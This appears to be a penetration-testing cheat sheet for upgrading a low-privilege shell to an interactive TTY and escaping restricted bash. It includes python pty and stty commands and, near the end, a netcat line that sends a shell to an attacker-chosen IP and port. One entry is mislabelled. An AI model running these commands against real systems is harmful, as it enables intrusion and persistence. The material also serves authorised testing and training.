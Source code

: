 ### **INTRODUCTION**

When you find yourself with a low-privilege shell, upgrading it to a fully interactive shell is crucial. Here’s a guide to making your shell fully interactive, including initial steps and additional tips for a smooth experience.

### **STEP 1. UPGRADE THE SHELL**

1.  Check the availability of Python versions:.   
    `which python python2 python3`
	
2.  Upgrade the Shell Using Python 2:  
    `python2 -c 'import pty; pty.spawn("/bin/bash")'`
	
3.  Upgrade the Shell Using Python 3:  
    `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    

### **STEP 2. SET PATH AND TERM**

Next, set the `PATH` and `TERM` environment variables to ensure proper functionality of shell commands and terminal capabilities:

1.  Set the PATH:  
    `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
2.  Set the TERM:  
    `export TERM=xterm-256color`

### **STEP 3. HANDLE BACKGROUND PROCESSES**

If you need to suspend the current shell process and bring it to the foreground later, use the following key combinations and commands:

1.  Press `Ctrl + Z` to suspend the current process and return to the parent shell.
2.  Enter raw mode and bring the process back to the foreground:  
    `stty raw -echo; fg`
3.  Reset the terminal settings to a sane state:  
    `reset`

### **STEP 4. SET SHELL AND TERMINAL SIZE**

Adjust the terminal window size for better readability and to avoid display issues:

1.  Set the terminal size:  
    `stty columns 200 rows 200`

### **BYPASSING RESTRICTED BASH**

Use the following commands to bypass restricted bash environments:

1.  Using Perl:  
    `perl -e 'exec "/bin/sh";'`
2.  Using a shell:  
    `/bin/sh -i`
3.  Using the exec function:  
    `exec "/bin/sh";`
4.  Using echo with os.system:  
    `echo os.system('/bin/bash')`
5.  Using netcat with SSH:  
    `/bin/sh -i`
6.  Using netcat with SSH:  
    `ssh [USER]@[IP-ADRESS] nc $[LOCALIP] 4444 -e /bin/sh`
7.  Exporting TERM:  
    `export TERM=linux`